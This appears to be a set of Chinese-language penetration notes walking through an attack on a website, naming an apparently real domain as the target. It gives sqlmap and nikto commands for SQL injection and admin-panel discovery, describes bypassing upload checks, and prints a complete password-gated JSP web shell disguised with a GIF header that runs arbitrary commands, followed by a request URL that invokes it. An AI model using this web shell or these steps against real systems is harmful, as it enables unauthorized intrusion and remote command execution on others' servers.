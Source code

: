 ## sql注入
1. w3af对目标网站进行漏洞扫描
    ponderosa.com.tw

    勾选instructor

    audit：
    - sql
    - backdoor
2. sqlmap

```bash
  sqlmap -u [url] --dbs （输出数据库名称） --dbms mysql -D [dbname] --tables
```

3. nikto
```bash
    nikto --host [domain]
```

    扫描到后台管理网站，输入用户名和密码

4. 找到文件上传功能

  此处找到的是图片上传功能
  假如在前端做了文件验证的话，可以
      - 在f12对js做修改，很轻松的绕过
      - 代理的方式，做拦截做中间人攻击

  假如是判断文件头内容的话，一句话木马，改文件后缀名.gif
```jsp
Gif89a
<% if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("
<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b,0,a));
        }
        out.print("</pre>
");
    }
%>
```
或者抓包，中间人注入改文件头
回显带密码验证，直接执行
```
http://192.168.16.240:8080/Shell/cmd2.jsp?pwd=023&i=ls
```
可以发现，文件都列出来了，其实这里可以用更专业的工具来搞一哈，但是就算了，测试出漏洞就可以了。
